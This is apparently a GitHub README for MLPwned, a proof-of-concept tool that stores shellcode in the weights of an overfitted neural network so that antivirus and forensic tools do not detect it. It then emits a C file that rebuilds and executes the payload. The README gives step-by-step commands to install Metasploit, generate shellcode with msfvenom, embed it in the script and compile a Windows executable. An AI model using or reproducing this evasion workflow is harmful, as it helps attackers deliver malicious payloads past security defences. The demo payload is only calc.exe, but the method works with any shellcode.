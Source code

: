 # MLPwned

MLPwned is a proof-of-concept tool that uses a small, overfitted neural network (specifically a multi-layer perceptron) to store and reconstruct arbitrary shellcode at runtime. By embedding the shellcode bytes into the model’s learned weights, the script makes static analysis significantly more difficult. This is because traditional antivirus or forensic tools won’t directly detect malicious byte sequences in the binary. The final output is a self-contained C file that includes both the trained model parameters and logic needed to rebuild and execute the shellcode on demand, all without requiring a GPU. This approach is inspired by implicit neural representations, highlighting how neural networks can be used in unconventional ways to obfuscate and deliver malicious payloads.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Installation

### 1. Install Metasploit

Download and install Metasploit using the following commands:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```

### 2. Install Python Packages

```bash
pip install -r requirements.txt
```

### 3. Install MinGW-w64

```bash
sudo apt update
sudo apt install mingw-w64
```

## Usage

### 1. Generate Shellcode with msfvenom

```bash
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD=calc.exe -f python
```
![MLPwned Screenshot](assets/1.jpg)

### 2. Embed the Shellcode into MLPwned.py
Copy and paste the Python-formatted shellcode into MLPwned.py under the comment:
```bash
# Add msfvenom shellcode below
```

### 3. Run the Python Script

```bash
python MLPwned.py
```
![MLPwned Screenshot](assets/2.jpg)


### 4. Compile MLPwned.c to a Windows Executable

```bash
x86_64-w64-mingw32-gcc -o MLPwned.exe MLPwned.c
```